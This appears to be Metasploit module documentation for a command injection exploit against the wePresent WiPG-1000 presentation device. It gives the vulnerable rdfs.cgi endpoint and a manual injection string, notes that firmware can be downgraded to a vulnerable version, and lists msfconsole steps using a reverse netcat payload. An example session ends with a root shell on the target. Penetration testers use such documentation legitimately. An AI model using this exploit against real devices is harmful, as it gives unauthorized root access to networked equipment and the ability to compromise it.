 ## Vulnerable Application

  This module exploits a command injection vulnerability in the [wePresent WiPG-1000](http://wepresentwifi.com/wipg1000.html) device. A description of the exploited vulnerability is available in section 3.4 of [this advisory](https://www.redguard.ch/advisories/wepresent-wipg1000.txt).
  The latest vulnerable firmware version is 2.0.0.7. Newer versions can be downgraded to [the older firmware](http://www.wepresentwifi.com/assets/downloads/wipg1000/wePresent.1000.2.0.0.7.nad.zip).

  There is no complete list of vulnerable firmware versions, however the check method can reliably detect whether a device is vulnerable. The check method checks for the presence of the `rdfs.cgi` file and whether it contains the string `https://www.redguard.ch/advisories/wepresent-wipg1000.txt`. All known versions of this file on the device are vulnerable to this command injection.

  Manual exploitation would equate to browsing to the URI `http://<ip>/cgi-bin/rdfs.cgi` and entering the String `; command;` in the input field and submitting the form.

## Verification Steps

  1. Make sure the device is running.
  2. Start msfconsole.
  3. Do: ```use exploit/linux/http/wipg1000_cmd_injection```
  4. Do: ```set payload cmd/unix/reverse_netcat```
  5. Do: ```set RHOST <ip>```
  6. Do: ```set LHOST <ip>```
  7. Do: ```exploit```
  8. You should get a shell.

## Options

  **PAYLOAD**

  The `generic`,`netcat` and `openssl` payload types are valid.

## Scenarios

  The following is an example run getting a shell:

  ```
  msf > use exploit/linux/http/wipg1000_cmd_injection 
  msf exploit(wipg1000_cmd_injection) > set payload cmd/unix/reverse_netcat
  payload => cmd/unix/reverse_netcat
  msf exploit(wipg1000_cmd_injection) > set RHOST 192.168.3.3
  RHOST => 192.168.3.3
  msf exploit(wipg1000_cmd_injection) > set LHOST 192.168.3.216
  LHOST => 192.168.3.216
  msf exploit(wipg1000_cmd_injection) > check
  [*] 192.168.3.3:80 The target appears to be vulnerable.
  msf exploit(wipg1000_cmd_injection) > exploit

  [*] Started reverse TCP handler on 192.168.3.216:4444 
  [*] Sending request
  [*] Command shell session 1 opened (192.168.3.216:4444 -> 192.168.3.3:50893) at 2017-04-20 16:11:48 +0200
  id

  uid=0(root) gid=0(root) groups=0(root),10(wheel)
  ```
